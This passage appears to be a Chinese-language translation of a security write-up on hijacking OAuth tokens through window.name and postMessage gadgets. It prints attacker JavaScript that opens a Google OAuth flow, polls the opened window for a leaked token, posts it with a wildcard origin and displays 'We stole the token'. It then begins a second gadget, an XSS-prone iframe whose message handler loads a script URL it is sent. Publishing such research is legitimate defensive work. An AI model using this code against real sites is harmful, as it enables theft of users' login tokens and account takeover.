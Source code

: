 在加载到沙盒的我的脚本中，我用受害者使用的链接替换了对应内容:

```
document.body.innerHTML = 
'<a href=" " onclick="
b=window.open("https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...");">
Click here to hijack token</a >';

```

我写了一个脚本,周期性检查这个链接是否打开了,我想达到的iframe是有获得window.name设置的与iframe同源的在攻击者的页面上的iframe:


```
 x = setInterval(function() {
if(parent.window.b &&
 parent.window.b.frames[0] &&
 parent.window.b.frames[0].window &&
 parent.window.b.frames[0].window.name) {
   top.postMessage(parent.window.b.frames[0].window.name, '*');
   parent.window.b.close();
   clearInterval(x);
}
}, 500);
```

然后攻击者页面就可以只听我们用window.name发送的消息:


```
<script>
window.addEventListener('message', function (e) {
 if (e.data) {
     document.getElementById('leak').innerText = 'We stole the token: ' + e.data;
 }
});
</script>

```

## Gadget 2:  示例2  带有XSS的iframe +父源检查


第二个例子是用postMessage加载了带有xss的不愉快路径的iframe;但是messages只允许来自它的父窗口的位置加载它，当iframe向父窗口请求initConfig时，location.href被发送到iframe。
主窗口像这样加载iframe:

`<iframe src="https://challenge-iframe.example.com/"></iframe>`

内容是这样的(为了更好地解释攻击，这里进行了简化):

```

<script>
window.addEventListener('message', function (e) {
  if (e.source !== window.parent) {
    // not a valid origin to send messages
    return;
  }
  if (e.data.type === 'loadJs') {
    loadScript(e.data.jsUrl);
  } else if (e.data.type === 'initConfig') {
    loadConfig(e.data.config);
  }
});
</script>
```


[2]: https://openid.net/specs/oauth-v2-multiple-response-types-1_0-09.html#Encoding